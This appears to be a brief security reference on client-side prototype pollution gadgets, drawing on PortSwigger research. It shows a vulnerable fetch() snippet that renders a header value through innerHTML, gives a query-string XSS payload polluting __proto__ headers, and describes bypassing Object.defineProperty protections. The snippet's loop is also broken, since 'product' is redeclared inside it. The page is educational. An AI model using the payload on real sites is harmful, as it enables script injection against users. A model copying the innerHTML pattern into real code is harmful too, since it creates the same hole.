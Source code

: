 Research: https://portswigger.net/research/widespread-prototype-pollution-gadgets

## Prototype pollution via fetch()
We can control any undefined properties of the options object passed to `fetch()`.

```js
fetch('/my-products.json',{method:"GET"})
    .then((response) => response.json())
    .then((data) => {
        let username = data['x-username'];
        let message = document.querySelector('.message');
        if(username) {
            message.innerHTML = `My products. Logged in as <b>${username}</b>`;
        }
        let productList = document.querySelector('ul.products');
        for(let product of data) {
            let product = document.createElement('li');
            product.append(product.name);
            productList.append(product);
        }
    })
    .catch(console.error);
```

```
?__proto__[headers][x-username]=<img/src/onerror=alert(1)>
```

## Prototype pollution via Object.defineProperty()
Developers may attempt to block potential gadgets by using:
```js
Object.defineProperty(vulnerableObject, 'gadgetProperty', {
    configurable: false,
    writable: false
})
```

An attacker may be able to bypass this defense by polluting `Object.prototype` with a malicious `value` property. If this is inherited by the descriptor object passed to `Object.defineProperty()`, the attacker-controlled value may be assigned to the gadget property after all.

Research: https://portswigger.net/research/widespread-prototype-pollution-gadgets
